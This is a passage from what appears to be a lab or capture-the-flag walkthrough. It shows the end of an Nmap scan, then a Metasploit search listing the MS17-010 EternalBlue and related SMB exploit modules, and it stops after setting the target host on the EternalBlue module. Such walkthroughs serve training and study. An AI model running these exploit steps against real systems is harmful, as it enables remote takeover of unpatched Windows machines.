 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.66 seconds

# msfconsole

# msf > search ms17-010

0 exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
1 \_ target: Automatic Target . . . .
2 \_ target: Windows 7 . . . .
3 \_ target: Windows Embedded Standard 7 . . . .
4 \_ target: Windows Server 2008 R2 . . . .
5 \_ target: Windows 8 . . . .
6 \_ target: Windows 8.1 . . . .
7 \_ target: Windows Server 2012 . . . .
8 \_ target: Windows 10 Pro . . . .
9 \_ target: Windows 10 Enterprise Evaluation . . . .
10 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
11 \_ target: Automatic . . . .
12 \_ target: PowerShell . . . .
13 \_ target: Native upload . . . .
14 \_ target: MOF upload . . . .
15 \_ AKA: ETERNALSYNERGY . . . .
16 \_ AKA: ETERNALROMANCE . . . .
17 \_ AKA: ETERNALCHAMPION . . . .
18 \_ AKA: ETERNALBLUE . . . .
19 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
20 \_ AKA: ETERNALSYNERGY . . . .
21 \_ AKA: ETERNALROMANCE . . . .
22 \_ AKA: ETERNALCHAMPION . . . .
23 \_ AKA: ETERNALBLUE . . . .
24 auxiliary/scanner/smb/smb_ms17_010 . normal No MS17-010 SMB RCE Detection
25 \_ AKA: DOUBLEPULSAR . . . .
26 \_ AKA: ETERNALBLUE . . . .
27 exploit/windows/smb/smb_doublepulsar_rce 2017-04-14 great Yes SMB DOUBLEPULSAR Remote Code Execution
28 \_ target: Execute payload (x64) . . . .
29 \_ target: Neutralize implant . . . .

Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'

# msf exploit(windows/smb/ms17\*010_eternalblue) > set RHOSTS 10.201.21.43
